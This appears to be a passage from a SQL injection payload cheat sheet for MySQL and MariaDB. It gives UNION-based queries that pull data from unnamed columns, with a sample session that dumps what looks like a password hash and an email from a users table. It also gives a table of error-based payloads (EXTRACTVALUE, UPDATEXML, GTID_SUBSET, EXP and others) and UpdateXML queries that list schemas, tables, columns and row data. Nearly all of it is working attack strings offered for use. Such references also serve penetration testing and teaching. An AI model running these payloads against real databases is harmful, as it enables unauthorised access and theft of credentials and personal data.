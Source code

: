 ### Extract Data Without Columns Name

Extracting data from the 4th column without knowing its name.

```sql
SELECT `4` FROM (SELECT 1,2,3,4,5,6 UNION SELECT * FROM USERS)DBNAME;
```

Injection example inside the query `select author_id,title from posts where author_id=[INJECT_HERE]`

```sql
MariaDB [dummydb]> SELECT AUTHOR_ID,TITLE FROM POSTS WHERE AUTHOR_ID=-1 UNION SELECT 1,(SELECT CONCAT(`3`,0X3A,`4`) FROM (SELECT 1,2,3,4,5,6 UNION SELECT * FROM USERS)A LIMIT 1,1);
+-----------+-----------------------------------------------------------------+
| author_id | title                                                           |
+-----------+-----------------------------------------------------------------+
|         1 | a45d4e080fc185dfa223aea3d0c371b6cc180a37:veronica80@example.org |
+-----------+-----------------------------------------------------------------+
```

## MYSQL Error Based

| Name         | Payload         |
| ------------ | --------------- |
| GTID_SUBSET  | `AND GTID_SUBSET(CONCAT('~',(SELECT version()),'~'),1337) -- -` |
| JSON_KEYS    | `AND JSON_KEYS((SELECT CONVERT((SELECT CONCAT('~',(SELECT version()),'~')) USING utf8))) -- -` |
| EXTRACTVALUE | `AND EXTRACTVALUE(1337,CONCAT('.','~',(SELECT version()),'~')) -- -` |
| UPDATEXML    | `AND UPDATEXML(1337,CONCAT('.','~',(SELECT version()),'~'),31337) -- -` |
| EXP          | `AND EXP(~(SELECT * FROM (SELECT CONCAT('~',(SELECT version()),'~','x'))x)) -- -` |
| OR           | `OR 1 GROUP BY CONCAT('~',(SELECT version()),'~',FLOOR(RAND(0)*2)) HAVING MIN(0) -- -` |
| NAME_CONST   | `AND (SELECT * FROM (SELECT NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)--` |
| UUID_TO_BIN  | `AND UUID_TO_BIN(version())='1` |

### MYSQL Error Based - Basic

Works with `MySQL >= 4.1`

```sql
(SELECT 1 AND ROW(1,1)>(SELECT COUNT(*),CONCAT(CONCAT(@@VERSION),0X3A,FLOOR(RAND()*2))X FROM (SELECT 1 UNION SELECT 2)A GROUP BY X LIMIT 1))
'+(SELECT 1 AND ROW(1,1)>(SELECT COUNT(*),CONCAT(CONCAT(@@VERSION),0X3A,FLOOR(RAND()*2))X FROM (SELECT 1 UNION SELECT 2)A GROUP BY X LIMIT 1))+'
```

### MYSQL Error Based - UpdateXML Function

```sql
AND UPDATEXML(rand(),CONCAT(CHAR(126),version(),CHAR(126)),null)-
AND UPDATEXML(rand(),CONCAT(0x3a,(SELECT CONCAT(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)),null)--
AND UPDATEXML(rand(),CONCAT(0x3a,(SELECT CONCAT(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)),null)--
AND UPDATEXML(rand(),CONCAT(0x3a,(SELECT CONCAT(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)),null)--
AND UPDATEXML(rand(),CONCAT(0x3a,(SELECT CONCAT(CHAR(126),data_info,CHAR(126)) FROM data_table.data_column LIMIT data_offset,1)),null)--
```
